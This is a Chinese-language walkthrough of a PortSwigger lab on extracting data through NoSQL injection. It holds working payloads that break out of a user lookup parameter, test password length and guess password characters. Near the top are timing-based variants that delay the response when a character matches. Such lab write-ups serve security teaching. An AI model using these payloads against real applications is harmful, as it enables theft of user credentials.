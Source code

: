 ```php
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```php
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

portwigger-lab
==============

### 利用NoSQL 注入提取数据

首先进来还是利用之前给的号进入

![nosql6 1.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5e1685d57680ebcd7dacc610513db186973bab5f.png)

发现有个lookup的文件进行搜索user：  
<https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener>

![nosql7.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e8b1a38bc176275bed098cf64cf82c5593b532b1.png)  
所以这里就尝试判断注入是否存在  
playload：  
<https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener>'

![nosql8.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-231a84ddb1660265ec0f375d6d92a25c96d368db.png)  
<https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener>' &amp;&amp; '1'=\\='1

![nosql9.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a9a1197ef95cf065b96ed2eb1f5ab7eb92772baa.png)  
正常，所以判断是有注入的，那么这里如何获取数据呢？  
尽管题目给了admin的账户名，但是对于实战当中我们是没办法知道用户名的，所以我还是以winter这个account做例子  
playload：  
<https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener>' &amp;&amp; this.password.length &lt; 30 || 'a'='b

![nosql10.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c48584b7d2b632fecb8158baa92b2873bace9ea9.png)  
<https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener>' &amp;&amp; this.password.length &lt; 0 || 'a'='b

![nosql11.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2a986b6238472e72e42ef815bdb575047b3d9ebe.png)  
所以这里看见是可以对长度进行判断的，比如我们的密码是`peter`也就是5位那我们构造下length =\\=5也是为真的。

![nosql12.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4e10ef7e9d31f7278d9ea24f3bcf21a3b3203d08.png)  
接下来可以利用

```php
winter' && this.password\[0\]=\='a
```

进行猜密码，这里可以写脚本也可以burp启动  
这里就放出一些例子的图片，不多说明
